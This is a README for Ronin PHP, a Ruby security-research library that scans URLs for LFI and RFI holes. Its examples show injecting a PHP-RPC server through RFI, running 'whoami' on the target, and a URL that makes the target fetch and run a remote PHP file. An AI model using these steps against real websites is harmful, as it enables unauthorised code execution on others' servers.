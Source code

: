 # Ronin PHP

* [Source](http://github.com/ronin-ruby/ronin-php)
* [Issues](http://github.com/ronin-ruby/ronin-php/issues)
* [Documentation](http://rubydoc.info/github/ronin-ruby/ronin-php/frames)
* [Mailing List](http://groups.google.com/group/ronin-ruby)
* [irc.freenode.net #ronin](http://webchat.freenode.net/?channels=ronin&uio=Mj10cnVldd)

## Description

Ronin PHP is a Ruby library for Ronin that provides support for PHP
related security tasks.

Ronin is a Ruby platform for exploit development and security research.
Ronin allows for the rapid development and distribution of code, exploits
or payloads over many common Source-Code-Management (SCM) systems.

### Ruby

Ronin's Ruby environment allows security researchers to leverage Ruby with
ease. The Ruby environment contains a multitude of convenience methods
for working with data in Ruby, a Ruby Object Database, a customized Ruby
Console and an extendable command-line interface.

### Extend

Ronin's more specialized features are provided by additional Ronin
libraries, which users can choose to install. These libraries can allow
one to write and run Exploits and Payloads, scan for PHP vulnerabilities,
perform Google Dorks  or run 3rd party scanners.

### Publish

Ronin allows users to publish and share code, exploits, payloads or other
data via Overlays. Overlays are directories of code and data that can be
hosted on any SVN, Hg, Git or Rsync server. Ronin makes it easy to create,
install or update Overlays.

## Features

* Provides tests for Location File Inclusion (LFI) and Remote File
  Inclusion (RFI) that are built into the URI::HTTP class.
* Allows for effortless finger-printing of a web-server using LFI.
* Provides a PHP-RPC client and server that are designed to work in hostile
  environments.
* Provides an AJAX PHP-RPC Console.

## Synopsis

Start the Ronin console with Ronin PHP preloaded:

    $ ronin-php

## Examples

Test for Remote File Inclusion (RFI):

    require 'ronin/php/rfi'

    url = URI('http://www.example.com/page.php?lang=en')
    url.has_rfi?
    # => true

Get the first viable RFI vulnerability:

    url.first_rfi
    # => #<Ronin::PHP::RFI: ...>

Scan a URL for RFI vulnerabilities:

    url.rfi_scan
    # => [#<Ronin::PHP::RFI: ...>, ...]

Inject a PHP-RPC Server into a RFI vulnerable URL:

    require 'ronin/rpc/php'

    client = url.rfi.rpc
    client.exec('whoami')
    # => "www-data"

Get a direct URL to the AJAX interface of the PHP-RPC Server:

    client.url
    # => "http://www.example.com/page.php?en=http://ronin.rubyforge.org/static/ronin/php/rpc/server.min.php?"

Test for Local File Inclusion (LFI):

    require 'ronin/php/lfi'

    url = URI('http://www.example.com/site.php?page=home')
    url.has_lfi?
    # => true

Get the first viable LFI vulnerability:

    url.first_lfi
    # => #<Ronin::PHP::LFI: ...>

Scan a URL for LFI vulnerabilities:

    url.lfi_scan
    # => [#<Ronin::PHP::LFI: ...>, ...]

## Requirements

* [cssmin](http://rubygems.org/gems/cssmin) ~> 1.0.2
* [jsmin](http://rubygems.org/gems/jsmin) ~> 1.0.1
* [ronin-support](http://github.com/ronin-ruby/ronin-support) ~> 0.2
* [ronin](http://github.com/ronin-ruby/ronin) ~> 1.1
* [ronin-gen](http://github.com/ronin-ruby/ronin-gen) ~> 1.0
* [ronin-scanners](http://github.com/ronin-ruby/ronin-scanners) ~> 1.0
* [ronin-web](http://github.com/ronin-ruby/ronin-web) ~> 0.3
* [ronin-exploits](http://github.com/ronin-ruby/ronin-exploits) ~> 1.0

## Install

    $ sudo gem install ronin-php

## License

Ronin PHP - A Ruby library for Ronin that provides support for PHP
related security tasks.

Copyright (c) 2007-2010 Hal Brodigan (postmodern.mod3 at gmail.com)

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 2 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
